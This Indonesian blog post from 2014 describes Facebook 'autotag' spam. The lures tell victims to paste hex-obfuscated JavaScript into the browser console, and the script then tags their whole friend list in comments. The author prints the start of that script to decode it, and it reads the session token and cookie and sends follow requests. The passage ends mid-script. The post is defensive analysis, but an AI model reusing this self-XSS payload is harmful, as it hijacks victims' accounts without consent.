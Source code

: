 ```yaml
---
layout: post
title: Facebook Autotag
date: 2014-01-30 13:35:56 +0700
comments: true
thumb: facebook.jpg
tags: [Tulisan, Facebook, Spam]
excerpt:
  'Facebook belakangan ini mulai marak dengan kasus autotag, dimana setiap orang akan secara otomatis mention/summon semua friendlist nya kedalam komentar. Seperti yang saya alami beberapa waktu lalu, saya di-mention oleh beberapa teman ke beberapa post. Setelah saya coba check post tersebut ternyata hanya post bodoh yang nggak ada gunanya sama sekali, antara lain <em>Hack password teman</em>, <em>Melihat isi inbox dari akun FB temen</em> bahkan ada jg yg pake modus <em>Memperoleh ribuan follower cewek-cewek seksi</em>. WHAT THE FUCKING IS THIS SHIT!'
---
```

Belakangan ini mulai marak dengan kasus autotag di Facebook, dimana setiap orang akan secara otomatis mention/summon semua friendlist nya kedalam komentar. Seperti yang saya alami beberapa waktu lalu, saya di-mention oleh beberapa teman ke beberapa post. Setelah saya coba check post tersebut ternyata hanya post bodoh yang nggak ada gunanya sama sekali, antara lain _Hack password teman_, _Melihat isi inbox dari akun FB temen_ bahkan ada juga yang pake modus _Memperoleh ribuan follower cewek-cewek seksi_. WHAT THE FUCKING IS THIS SHIT!

Semua dikemas dalam bentuk tutorial. Dimana mereka mengarahkan untuk membuka sebuah link, dan  semuanya mengarahkan ke link yang berbeda tapi dengan isi yang sama yaitu sebuah script javascript yang di encode menggunakan hexadesimal (saya kurang tau encoder apa yang mereka gunakan). Setelah itu, script tersebut harus di-copas ke browser console. Setelah script tersebut dijalankan barulah mereka dapat melihat hasilnya. Dan hasilnya adalah script tersebut memanggil semua daftar teman yang ada untuk di-mention dalam komentar post tersebut.

Saya sempat penasaran, bagaimana sebenernya kerja dari script tersebut. Apa benar-benar bisa mendapatkan sesuai yang ditulis di judul nya atau bagaimana?. Tapi kecurigaan mulai muncul saat lihat kolom komentar nya yang mencapai ratusan ribu, padahal post tersebut baru keluar beberapa jam yang lalu. Ternyata keseluruhan komentar disitu hanyalah mention. Dan dilihat dari waktu komentarnya yang sama, dapat dipastikan bahwa setiap orang yang berkomentar dalam post tersebut adalah orang yang mencoba menggunakan script tersebut. Sangat tidak mungkin seseorang dapat menyebutkan semua friendlist nya dalam waktu yang bersamaan kan?

Dari situ saya mulai penasaran dan ingin ikut mencoba, tapi bukan mencoba untuk menggunakan melainkan mencoba untuk men-decode script tersebut. Berikut adalah script aslinya

{% highlight javascript %}
var _0xa959=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x6
7\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\
x6F\x6B\x69\x65","\x3D","\x6C\x65\x6E\x67\x74\x68","\x69\x6E\x64\x65\x78\x4F\x66","\x3B","\x73\x75\x
62\x73\x74\x72\x69\x6E\x67","","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x2F\x61\x6A\x61\x
78\x2F\x66\x6F\x6C\x6C\x6F\x77\x2F\x66\x6F\x6C\x6C\x6F\x77\x5F\x70\x72\x6F\x66\x69\x6C\x65\x2E\x70\x
68\x70\x3F\x5F\x5F\x61\x3D\x31","\x70\x72\x6F\x66\x69\x6C\x65\x5F\x69\x64\x3D","\x26\x6C\x6F\x63\x61
\x74\x69\x6F\x6E\x3D\x31\x26\x73\x6F\x75\x72\x63\x65\x3D\x66\x6F\x6C\x6C\x6F\x77\x2D\x62\x75\x74\x74
\x6F\x6E\x26\x73\x75\x62\x73\x63\x72\x69\x62\x65\x64\x5F\x62\x75\x74\x74\x6F\x6E\x5F\x69\x64\x3D\x75
\x33\x37\x71\x61\x63\x5F\x33\x37\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x6C\x73\x64\x26\x5F\x5F"
,"\x26\x70\x68\x73\x74\x61\x6D\x70\x3D","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x43\x6F\x6E\x74\x65\
x6E\x74\x2D\x74\x79\x70\x65","\x61\x70\x70\x6C\x69\x63\x61\x74\x69\x6F\x6E\x2F\x78\x2D\x77\x77\x77\x
